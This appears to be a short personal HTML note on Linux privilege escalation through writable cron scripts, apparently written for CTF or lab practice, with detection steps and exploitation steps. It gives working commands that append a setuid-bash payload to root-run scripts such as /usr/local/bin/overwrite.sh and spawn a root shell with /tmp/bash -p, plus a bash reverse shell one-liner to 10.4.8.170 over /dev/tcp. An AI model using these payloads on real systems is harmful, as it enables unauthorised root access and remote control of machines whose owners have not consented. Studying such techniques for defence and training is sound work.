

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Cron File Overwrites</title>
</head><body>Escalation via Cron overwrites 
 
<b>cat /etc/crontab</b> 
 
you can find file locations with  
 
<b>locate &lt;file name&gt;</b> 
 
 
We are looking for jobs with read/write access 
 
 
 
 
 
We see above. Read and write... but no execute... that is fine as the file executes with root permission as a cron job. 
 
 
From here, you can overwrite that file.  
 
Reverse shell 
local priv esc 
etc 
 
standard payload 
 
<b>echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt;&gt; /usr/local/bin/overwrite.sh 
 
</b><b>echo 'cp /bin/bash /tmp/bash2; chmod +s /tmp/bash2' &gt; </b>/var/www/html/tmp/clean.sh 
 
bash -i &gt;&amp; /dev/tcp/10.4.8.170/7331 0&gt;&amp;1 
 
cat outt eh file, make sure the command was appended 
 
ls- la 
 
check for update 
 
run with 
 
<b>/tmp/bash -p</b> 
 
 
 
*** This is the most common seen in CTFs and the wild 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: cat /etc/crontab 
2. From the output, notice the script “overwrite.sh” 
3. In command prompt type: ls -l /usr/local/bin/overwrite.sh 
4. From the output, notice the file permissions. 
 
Exploitation 
 
Linux VM 
 
1. In command prompt type: 
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt;&gt; /usr/local/bin/overwrite.sh 
2. Wait 1 minute for the Bash script to execute. 
3. In command prompt type: /tmp/bash -p 
4. In command prompt type: id</body></html>